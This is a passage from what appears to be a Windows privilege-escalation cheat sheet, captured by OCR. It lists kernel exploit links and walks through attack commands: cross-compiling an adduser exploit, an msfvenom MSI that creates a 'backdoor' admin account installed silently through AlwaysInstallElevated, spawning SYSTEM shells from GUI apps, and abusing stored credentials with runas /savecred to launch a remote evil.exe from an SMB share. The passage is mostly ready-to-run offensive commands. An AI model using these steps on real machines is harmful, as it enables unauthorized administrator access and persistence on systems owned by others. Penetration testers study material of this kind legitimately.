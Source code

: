 - [MS16-016](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-016) 　[KB3136041]　　[WebDAV]　　(2008/Vista/7)
- [MS16-014](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-014) 　[K3134228]　　[remote code execution]　　(2008/Vista/7)    
...
- [MS03-026](./MS03-026) 　[KB823980]　　 [Buffer Overrun In RPC Interface]　　(/NT/2000/XP/2003)  

To cross compile a program from Kali, use the following command.

```powershell
Kali> i586-mingw32msvc-gcc -o adduser.exe useradd.c
```

## EoP - AlwaysInstallElevated

Check if these registry values are set to "1".

```bat
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Then create an MSI package and install it.

```powershell
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```

Technique also available in Metasploit : `exploit/windows/local/always_install_elevated`

## EoP - Insecure GUI apps

Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.

Example: "Windows Help and Support" (Windows + F1), search for "command prompt", click on "Click to open Command Prompt"

## EoP - Runas

Use the `cmdkey` to list the stored credentials on the machine.

```powershell
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

Then you can use `runas` with the `/savecred` options in order to use the saved credentials. 
The following example is calling a remote binary via an SMB share.
```powershell
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```

Using `runas` with a provided set of credential.
